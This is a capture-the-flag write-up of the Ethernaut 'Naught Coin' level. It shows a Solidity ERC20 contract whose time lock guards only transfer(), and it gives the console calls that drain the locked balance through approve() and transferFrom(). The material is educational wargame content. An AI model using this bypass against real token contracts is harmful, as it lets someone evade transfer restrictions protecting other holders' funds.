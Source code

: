 ```yaml
---
layout: post
title: Ethernaut - 15. Naught Coin
date:  2022-08-28
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌕🌑🌑
> NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0. <br />
Things that might help
- The ERC20 Spec
- The OpenZeppelin codebase

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

## Writeup
What is ERC20 : 
- [EIP20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md)
- [Openzepplin - ERC20](https://docs.openzeppelin.com/contracts/3.x/api/token/erc20)

Lack of implement crucial function ( `approve()` & `transferfrom()` ) make this contract vulnerable.

1. Call the method in console
    ``` javascript

    await contract.approve(player,toWei("1000000"))

    ```
2. Call the method in console
    ``` javascript

    await contract.transferFrom(player,'0x3aadd6ddcc24819bb05426ac8be5814e975e23da',toWei("1000000"))
    //                                             anaother account

    ```
3. Check by calling the method in console
    ``` javascript

    await contract.balanceOf(player).then(v=>v.toString())
    // '0'
    await contract.balanceOf('0x3aadd6ddcc24819bb05426ac8be5814e975e23da').then(v=>v.toString())
    // '1000000000000000000000000'

    ```
4. Submit instance ξ( ✿＞◡❛)